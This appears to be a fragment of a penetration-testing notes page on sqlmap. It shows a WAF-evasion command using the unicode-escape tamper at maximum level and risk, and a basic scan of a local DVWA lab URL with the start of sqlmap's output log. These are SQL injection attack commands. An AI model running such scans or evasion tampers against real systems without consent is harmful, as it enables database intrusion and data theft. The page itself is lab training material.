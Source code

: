 {% tabs %}
{% tab title="Unicode Escape" %}
{% code overflow="wrap" %}
```bash
sqlmap -r burp.req --batch -v 0 --level=5 --risk=3 --tamper=charunicodeescape --delay 3
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Usage

### Basic Usage

<figure><img src="../../.gitbook/assets/sqlmap_basic_usage.png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
$ sqlmap -u "http://127.0.0.1/vulnerabilities/sqli/?id=test&Submit=Submit" --cookie "PHPSESSID=23k5fk90ga91i036avi44m2mr2; security=low" --batch
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.8.5#stable}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:50:58 /2024-06-05/

[12:50:59] [INFO] testing connection to the target URL
[12:50:59] [INFO] checking if the target is protected by some kind of WAF/IPS
[12:50:59] [INFO] testing if the target URL content is stable
[12:50:59] [INFO] target URL content is stable
[12:50:59] [INFO] testing if GET parameter 'id' is dynamic
[12:50:59] [WARNING] GET parameter 'id' does not appear to be dynamic
```